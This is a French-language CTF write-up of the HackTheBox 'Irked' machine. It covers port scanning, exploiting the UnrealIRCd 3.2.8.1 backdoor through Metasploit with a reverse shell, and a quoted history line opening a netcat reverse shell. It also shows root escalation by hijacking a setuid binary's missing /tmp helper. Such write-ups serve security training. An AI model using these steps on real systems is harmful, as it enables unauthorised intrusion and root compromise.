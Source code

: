 ```yaml
---
title: "Solution du CTF Irked de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Fast
----

*Irked* est un CTF proposé par *MrAgent* sur *HackTheBox*.  

Platforme Linux et difficulté facile (20 points), c'est parti !  

La machine dispose de ports ouverts classiques mais aussi certains en rapport avec IRC :  

```
Nmap scan report for 10.10.10.117
Host is up (0.029s latency).
Not shown: 65513 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
142/tcp   filtered bl-idm
2092/tcp  filtered descent3
3663/tcp  filtered dtp
6697/tcp  open     ircs-u
7634/tcp  filtered hddtemp
8067/tcp  open     infi-async
8512/tcp  filtered unknown
10572/tcp filtered unknown
15124/tcp filtered unknown
16477/tcp filtered unknown
22681/tcp filtered unknown
29675/tcp filtered unknown
29926/tcp filtered unknown
46360/tcp filtered unknown
48368/tcp filtered unknown
48810/tcp filtered unknown
49419/tcp open     unknown
52182/tcp filtered unknown
65534/tcp open     unknown
```

Le serveur web ne retournant rien d'intéressant c'est le moment de lancer le client IRC XChat pour voir ce que l'on trouve :  

```
* *** Looking up your hostname...
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network devloop!devloop@10.10.13.166
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 2 invisible on 1 servers
* I have 3 clients and 0 servers
* Current Local Users: 3  Max: 3
* Current Global Users: 3  Max: 3
* MOTD File is missing
* devloop active le mode +i devloop
* devloop active le mode +w devloop
* devloop active le mode +x devloop
```

On voit ici que le serveur IRCd est un Unread en version 3.2.8.1, bien connu pour inclure une backdoor ([voir solution du CTF Relativity]({% link _posts/2014-03-04-Solution-du-CTF-Relativity-de-VulnHub.md %})).  

*Metasploit* dispose d'un module pour cette vulnérabilité, il suffit juste de tester quelques payloads pour en trouver un fonctionnel :  

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.166     yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.13.166:80
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.13.166:80 -> 10.10.10.117:33984) at 2019-02-03 12:07:42 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Le système est un Debian 32 bits (*Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*).  

Il y a un utilisateur qui possède le flag *user.txt* :  

```
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 /home/djmardov/.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3 04:26 /home/djmardov/.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 /home/djmardov/Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 /home/djmardov/Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 /home/djmardov/Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 /home/djmardov/.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov/.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3 04:40 /home/djmardov/.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 /home/djmardov/.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 /home/djmardov/.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 /home/djmardov/.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 /home/djmardov/.mozilla
```

Le fichier *Documents/.backup* contient un mot de passe avec un indice laissant supposer qu'il faut utiliser un logiciel de stéganographie quelconque... pas trop envie XD  

And furious
-----------

Le fichier */home/ircd/.bash\_history* semble contenir des commandes de plus fort intérêt :  

```bash
echo '#!/bin/sh' > who
echo 'nc 10.10.13.255 4445 -e /bin/sh' >> who
chmod +x who
./who
/usr/bin/viewuser
su
su Kab6h+m+bbp2J
su
viewuser
exit
```

Malheureusement ce qui semble être un mot de passe ne semble pas permettre un accès SSH ni de passer root via *su* :(  

Le binaire *viewuser* semble être le chemin tout tracé :  

```
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

Une fois ce binaire récupéré on l'ouvre dans *Cutter* pour voir le *main()* :  

![HackTheBox Irked CTF viewuser disassembly in Cutter](/assets/img/htb/irked_viewuser_main.png)

Et parmi les chaînes de caractères présentes dans le programme on voit */tmp/listusers* qui n'existe pas...  

```
ircd@irked:/var/www/html$ cp /bin/dash /tmp/listusers
ircd@irked:/var/www/html$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-02-03 08:08 (:0)
djmardov pts/2        2019-02-03 08:10 (10.10.14.226)
djmardov pts/0        2019-02-03 08:24 (10.10.14.13)
djmardov pts/8        2019-02-03 08:44 (10.10.12.244)
djmardov pts/10       2019-02-03 08:50 (10.10.15.100)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cd /root
# ls
pass.txt  root.txt
# cat root.txt
8d8e9e8 -- snip --22daf3
```


*Published April 27 2019 at 17:44*
